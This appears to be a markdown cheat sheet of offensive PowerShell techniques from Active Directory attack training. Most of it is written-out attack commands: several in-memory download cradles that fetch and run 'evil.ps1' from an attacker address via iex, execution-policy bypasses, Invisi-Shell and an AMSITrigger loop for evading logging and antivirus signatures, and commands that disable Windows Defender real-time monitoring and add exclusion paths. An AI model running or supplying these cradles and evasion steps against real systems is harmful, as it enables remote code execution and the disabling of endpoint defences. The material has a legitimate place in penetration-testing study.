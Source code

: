 - PowerShell is NOT powershell.exe. It is the System.Management.Automation.dll
- `ls env:`
### PowerShell Scripts and Modules
- Load a PowerShell script using dot sourcing
```
. C:\AD\Tools\PowerView.ps1
```
- A module (or a script) can be imported with:
```
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
- All the commands in a module can be listed with:
```
Get-Command -Module <modulename>
```
- Download execute cradle
```
#This will run from memory instaed of disk
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

```
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

```
#PSv3 onwards 
iex (iwr 'http://192.168.230.1/evil.ps1')
```

```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
### PowerShell Detections
- System-wide transcription
- Script Block logging
- AntiMalware Scan Interface (AMSI) 
	- Regardless of how we run a script (from memory or disk or any menas), right before execution it will pick up the content and show it to the AV
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)
```
# to check th constrain

$ExecutionContext.SessionState.LanguageMode
```

### Execution Policy
- It is NOT a security measure, it is present to prevent user from accidently executing scripts.
- Several ways to bypass
```
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Bypassing PowerShell Security
- We will use [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell
- Using Invisi-Shell
	- With admin privileges:
	```
	RunWithPathAsAdmin.bat
	```
	- With non-admin privileges:
	```
	RunWithRegistryNonAdmin.bat
	```
	- Type exit from the new PowerShell session to complete the clean-up.

### Bypassing AV Signatures for PowerShell
- We can always load scripts in memory and avoid detection using AMSI bypass.
- We can use the [AMSITrigger](https://github.com/RythmStick/AMSITrigger) or [DefenderCheck](https://github.com/t3hbb/DefenderCheck) to identify code and strings from a binary or script that Windows Defender may flag.
- Simply provide path to the script file to scan it:
```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
DefenderCheck.exe PowerUp.ps1
```
- For full obfuscation of PowerShell scripts, see [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- Steps to avoid signature based detection are pretty simple:
	- Scan using AMSITrigger
	- Modify the detected code snippet
	- Rescan using AMSITrigger
	- Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”
- Bypass real time monitoring ( admin privs )
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
- Add Exclusion Path
```
*Evil-WinRM* PS C:\Users\Public\temp> add-mppreference -ExclusionPath C:\Users\Public\temp
```